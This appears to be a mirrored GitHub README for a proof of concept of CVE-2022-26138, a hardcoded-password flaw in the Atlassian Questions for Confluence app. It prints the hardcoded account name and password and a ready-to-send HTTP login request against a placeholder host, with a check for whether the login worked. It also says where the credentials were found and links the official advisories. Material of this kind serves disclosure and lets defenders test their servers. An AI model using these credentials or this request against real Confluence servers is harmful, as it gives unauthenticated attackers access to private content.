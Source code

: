 # CVE-2022-26138

Atlassian Questions Hardcoded Password (CVE-2022-26138)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/alcaparra](https://github.com/alcaparra) |
| Url      | [https://github.com/alcaparra/CVE-2022-26138](https://github.com/alcaparra/CVE-2022-26138)                                               |
| Stars    | 34                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* atlassian* confluence* cve* cve-2022-26138* poc

</details>

## Readme

# CVE-2022-26138 POC
![questions_cve](https://user-images.githubusercontent.com/105424007/180184601-06a62fae-a5ba-412f-9304-d9c3abb0c400.png)

## Description
```
The Atlassian Questions For Confluence app for Confluence Server and Data Center 
creates a Confluence user account in the confluence-users group with 
the username disabledsystemuser and a hardcoded password. A remote, 
unauthenticated attacker with knowledge of the hardcoded password could
exploit this to log into Confluence and access all content accessible 
to users in the confluence-users group. 
This user account is created when installing versions 2.7.34, 2.7.35, and 3.0.2 of the app.
```

## POC
Hardcoded Credentials: 
 - User: `disabledsystemuser`
 - Password: `disabled1system1user6708`

## Exploitation
```
POST /dologin.action HTTP/1.1
Host: victim.local
Content-Type: application/x-www-form-urlencoded

os_username=disabledsystemuser&os_password=disabled1system1user6708&login=Log+in&os_destination=%2Fvulnerable.action
```
If the server redirects to `/vulnerable.action`, credentials are valid.

## Were did you get the creds from?

The hardcoded credential were plainly laying inside the jar files of the affected plugin

`https://packages.atlassian.com/maven-atlassian-external/com/atlassian/confluence/plugins/confluence-questions/3.0.2/confluence-questions-3.0.2.jar`

## References
* https://www.cvedetails.com/cve/CVE-2022-26138/
* https://confluence.atlassian.com/doc/confluence-security-advisory-2022-07-20-1142446709.html
* https://jira.atlassian.com/browse/CONFSERVER-79483



## Get the content

```
git clone https://github.com/alcaparra/CVE-2022-26138
cd CVE-2022-26138
```

{% embed url="https://github.com/alcaparra/CVE-2022-26138" %}

<figure><img src="https://avatars.githubusercontent.com/u/105424007?v=4" alt=""><figcaption><p>alcaparra</p></figcaption></figure>
